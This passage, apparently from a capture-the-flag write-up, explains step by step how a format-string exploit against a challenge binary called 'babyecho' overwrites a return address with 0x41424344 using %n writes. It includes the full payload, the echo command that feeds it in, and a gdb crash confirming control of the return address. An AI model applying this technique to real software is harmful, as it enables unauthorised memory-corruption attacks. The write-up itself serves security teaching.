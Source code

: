 What happens if we want to write four different bytes? Let's say we want 0x41424344...

In memory, 0x41424344 is "44 43 42 41". That means we have to write 44, then 43, then 42, then 41.

0x44 is easy. We know we're writing 16 bytes worth of addresses. To go from 16 to 0x44 (68) is 52 bytes. So we put "%52x%7$n" and our return address looks like this:

<pre>
?? ?? ?? ?? [44 00 00 00] ?? ?? ?? ??
</pre>

Next, we want to write 0x43 to the next address. We've already output 0x44 bytes, so to output a total of 0x43 bytes, we'll have to wrap around. 0x44 + 0xff (255) = 0x0143. So if we use "%255x%8$n", we'll write 0x0143 to the next address, which will give us the following:

<pre>
?? ?? ?? ?? [44 43 01 00] 00 ?? ?? ??
</pre>

Two things stick out here: first, there's a 0x01 that shouldn't be there. But that'll get overwritten so it doesn't matter. The second is that we've now written one byte *past* our address. That means we're killing a legitimate variable, which may cause problems down the road. Luckily, in this level it doesn't matter - sucks to be that variable!

All right, so we've done 0x44 and 0x43. Now we want 0x42. To go from 0x43 to 0x42 is once again 0xff (255) bytes, so we can do almost the same thing: "%255x%9$n". That'll make the total number of bytes printed 0x0242, and will make our return address:

<pre>
?? ?? ?? ?? [44 43 42 02] 00 00 ?? ??
</pre>

Finally, to go from 0x42 to 0x41, we need another 255 bytes, so we do the same thing one last time: "%255x%10$n", and our return address is now:

<pre>
?? ?? ?? ?? [44 43 42 41] 03 00 00 ??
</pre>

Putting that all together, we get:

<pre>
'\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%52x%7$n''%255x%8$n''%255x%9$n''%255x%10$n'
</pre>

We prepend our length-changer onto the front, and give it a whirl:

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%52x%7$n''%255x%8$n''%255x%9$n''%255x%10$n' | ./babyecho &gt; /dev/null</span>
Segmentation fault (core dumped)
$ <span class='in'>gdb -q ./babyecho ./core</span>
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41424344 in ?? ()
</pre>
